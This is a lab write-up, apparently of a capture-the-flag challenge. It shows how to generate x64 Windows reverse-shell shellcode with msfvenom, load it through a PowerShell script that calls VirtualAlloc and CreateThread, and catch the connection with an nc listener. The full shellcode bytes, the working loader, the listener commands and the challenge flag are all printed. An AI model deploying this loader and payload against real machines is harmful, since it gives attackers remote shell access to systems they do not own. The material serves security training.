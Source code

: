 # Day 8: Shellcodes of the world, unite!

## Background story
> The below is copied from the day 8 description.

*Glitch the hacker, clever yet distrusted,*<br>
*Wrote a script with skills finely adjusted.*<br>
*Shellcode magic to his home it would send,*<br>
*Where secrets of Wareville he'd carefully penned.*<br>

Glitch, a skilled but mistrusted hacker, was prepping for a tech conference. He was eager to share his shellcode script that remotely accessed his home system. As he worked, he noticed Mayor Malware's henchmen lurking nearby.

"*They're wasting their time. I don't have anything they'd want,*" Glitch chuckled.

He didn't realise that hidden in his home system was something they desperately sought—a research paper he wrote on Wareville's defences, a treasure Mayor Malware was eager to obtain.

## Learning objectives
- Grasp the fundamentals of writing shellcode
- Generate shellcode for reverse shells
- Executing shellcode with PowerShell

## Connecting to the machine
There is a button on the challenge page to start a machine. This opens in a split screen mode, so you can use the machine in the web browser. The challenge also provides login credentials if you want to use RDP to connect instead.

You also need the AttackBox for this challenge, as it requires some tools that I don't have installed on my local machine. 

## Essential Terminologies
The challenge page provides some definitions of the terms `Shellcode`, `PowerShell`, `Windows Defender`, `Windows API`, `Accessing Windows API through PowerShell Reflection`, and `Reverse Shell`. I'm not going to repeat the same information here. You can refer to the challenge page for more details.

## Generating Shellcode
We are going to generate a shellcode using the tool `msfvenom`. The challenge provides the command to generate the shellcode:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.145.95 LPORT=1111 -f powershell
```

This outputs:
```plaintext
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of powershell file: 2259 bytes
[Byte[]] $buf = 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x0,0x0,0x0,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0xf,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x1,0xd0,0x8b,0x80,0x88,0x0,0x0,0x0,0x48,0x85,0xc0,0x74,0x67,0x48,0x1,0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x1,0xd0,0xe3,0x56,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x1,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x3,0x4c,0x24,0x8,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x1,0xd0,0x66,0x41,0x8b,0xc,0x48,0x44,0x8b,0x40,0x1c,0x49,0x1,0xd0,0x41,0x8b,0x4,0x88,0x48,0x1,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,0x57,0xff,0xff,0xff,0x5d,0x49,0xbe,0x77,0x73,0x32,0x5f,0x33,0x32,0x0,0x0,0x41,0x56,0x49,0x89,0xe6,0x48,0x81,0xec,0xa0,0x1,0x0,0x0,0x49,0x89,0xe5,0x49,0xbc,0x2,0x0,0x4,0x57,0xa,0xa,0x91,0x5f,0x41,0x54,0x49,0x89,0xe4,0x4c,0x89,0xf1,0x41,0xba,0x4c,0x77,0x26,0x7,0xff,0xd5,0x4c,0x89,0xea,0x68,0x1,0x1,0x0,0x0,0x59,0x41,0xba,0x29,0x80,0x6b,0x0,0xff,0xd5,0x50,0x50,0x4d,0x31,0xc9,0x4d,0x31,0xc0,0x48,0xff,0xc0,0x48,0x89,0xc2,0x48,0xff,0xc0,0x48,0x89,0xc1,0x41,0xba,0xea,0xf,0xdf,0xe0,0xff,0xd5,0x48,0x89,0xc7,0x6a,0x10,0x41,0x58,0x4c,0x89,0xe2,0x48,0x89,0xf9,0x41,0xba,0x99,0xa5,0x74,0x61,0xff,0xd5,0x48,0x81,0xc4,0x40,0x2,0x0,0x0,0x49,0xb8,0x63,0x6d,0x64,0x0,0x0,0x0,0x0,0x0,0x41,0x50,0x41,0x50,0x48,0x89,0xe2,0x57,0x57,0x57,0x4d,0x31,0xc0,0x6a,0xd,0x59,0x41,0x50,0xe2,0xfc,0x66,0xc7,0x44,0x24,0x54,0x1,0x1,0x48,0x8d,0x44,0x24,0x18,0xc6,0x0,0x68,0x48,0x89,0xe6,0x56,0x50,0x41,0x50,0x41,0x50,0x41,0x50,0x49,0xff,0xc0,0x41,0x50,0x49,0xff,0xc8,0x4d,0x89,0xc1,0x4c,0x89,0xc1,0x41,0xba,0x79,0xcc,0x3f,0x86,0xff,0xd5,0x48,0x31,0xd2,0x48,0xff,0xca,0x8b,0xe,0x41,0xba,0x8,0x87,0x1d,0x60,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,0x83,0xc4,0x28,0x3c,0x6,0x7c,0xa,0x80,0xfb,0xe0,0x75,0x5,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x0,0x59,0x41,0x89,0xda,0xff,0xd5
```
> Note: The IP passed to `LHOST` in the command should be the IP of your own attack box.

The list of bytes is the shellcode (machine code instructions) that we can use to create a reverse shell. It will connect back to the IP address specified in the `LHOST` parameter on port `1111`.

We are going to execute this shellcode using a PowerShell script which also uses some C# code to access the Windows API.

The PowerShell script is provided in the challenge:
```powershell
$VrtAlloc = @"
using System;
using System.Runtime.InteropServices;

public class VrtAlloc{
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);  
}
"@

Add-Type $VrtAlloc 

$WaitFor= @"
using System;
using System.Runtime.InteropServices;

public class WaitFor{
 [DllImport("kernel32.dll", SetLastError=true)]
    public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);   
}
"@

Add-Type $WaitFor

$CrtThread= @"
using System;
using System.Runtime.InteropServices;

public class CrtThread{
 [DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
  
}
"@
Add-Type $CrtThread   

[Byte[]] $buf = SHELLCODE_PLACEHOLDER
[IntPtr]$addr = [VrtAlloc]::VirtualAlloc(0, $buf.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $buf.Length)
$thandle = [CrtThread]::CreateThread(0, 0, $addr, 0, 0, 0)
[WaitFor]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```

The script is explained in the challenge, but I won't go into details here. We basically replace `SHELLCODE_PLACEHOLDER` with the shellcode generated by `msfvenom`.

## Time for Some Action - Executing the Shellcode
On the attack box, we run `nc` to listen on port `1111`:
```bash
nc -lvnp 1111
```

We create a file on the Attack Box Desktop which is a copy of the above PowerShell script with the shellcode inserted.

On the target Windows machine, we open PowerShell and enter the lines from the script file one by one. Once the last line is entered, the shellcode will execute and connect back to the Attack Box:

![Entering the PowerShell commands](images/entering-powershell-commands.png)

After entering the commands above, we can go back to the Attack Box and see the connection from the target machine:

![Connection from the reverse shell](images/reverse-shell-connected.png)

## Regaining Access
The challenge says that access has been stopped through port `1111`, so we need to regain access through port `4444`. We can generate a new shellcode with the following command:
```bash
 msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.145.95 LPORT=4444 -f powershell
```

Then we need the Attack Box to listen on port `4444`:
```bash
nc -lvnp 4444
```

We can then replace the shellcode in the PowerShell script with the new shellcode and run the script on the target machine as before.

The challenge says that a file containing the flag will appear in `C:\Users\glitch\Desktop\flag.txt`. We can check this by running the following command in the reverse shell:
```powershell
type C:\Users\glitch\Desktop\flag.txt
```
> Note: The challenge says that the flag.txt file may take a minute to appear.

## Answes to the questions
### What is the flag value?
The full question is: `What is the flag value once Glitch gets reverse shell on the digital vault using port 4444? Note: The flag may take around a minute to appear in the C:\Users\glitch\Desktop directory. You can view the content of the flag by using the command type C:\Users\glitch\Desktop\flag.txt.`

When getting the flag as descriped above, the flag is `AOC{GOT _MY_ACCESS_B@CK007}`.

### Remaining questions
The remaining questions only require you to click `Complete` and have no specific answers to find.


